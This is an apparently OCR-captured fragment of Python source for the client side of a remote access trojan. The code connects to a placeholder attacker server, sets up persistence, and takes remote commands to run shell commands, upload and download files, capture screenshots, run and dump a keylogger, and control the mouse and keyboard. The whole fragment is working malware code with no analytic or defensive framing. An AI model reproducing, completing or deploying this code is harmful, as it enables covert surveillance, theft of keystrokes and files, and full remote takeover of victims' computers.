 ```python
            pass
    else:
        # For Linux/macOS, add to cron or launch agents (not implemented here)
        pass

def client():
    server_ip = 'SERVER_IP'  # Replace with your server IP
    server_port = 9999

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server_ip, server_port))

    add_persistence()

    while True:
        command = reliable_recv(s)
        if command is None:
            break
        command = command.decode()

        if command == 'exit':
            break
        elif command.startswith('exec '):
            cmd = command[5:]
            output = execute_command(cmd)
            reliable_send(s, output)
        elif command.startswith('upload '):
            filename = command[7:]
            receive_file(s, filename)
            reliable_send(s, b'Upload complete')
        elif command.startswith('download '):
            filename = command[9:]
            if os.path.exists(filename):
                send_file(s, filename)
            else:
                reliable_send(s, b'File not found')
        elif command == 'screenshot':
            img_data = capture_screen()
            reliable_send(s, img_data)
        elif command == 'keylog_start':
            if not keylogger_running:
                threading.Thread(target=start_keylogger, daemon=True).start()
            reliable_send(s, b'Keylogger started')
        elif command == 'keylog_dump':
            data = get_keylog()
            reliable_send(s, data)
        elif command == 'keylog_stop':
            stop_keylogger()
            reliable_send(s, b'Keylogger stopped')
        elif command.startswith('mouse_move '):
            try:
                x, y = map(int, command.split()[1:3])
                pyautogui.moveTo(x, y)
                reliable_send(s, b'Mouse moved')
            except:
                reliable_send(s, b'Invalid coordinates')
        elif command.startswith('mouse_click'):
            pyautogui.click()
            reliable_send(s, b'Mouse clicked')
        elif command.startswith('type '):
            text = command[5:]
            pyautogui.typewrite(text)
            reliable_send(s, b'Text typed')
```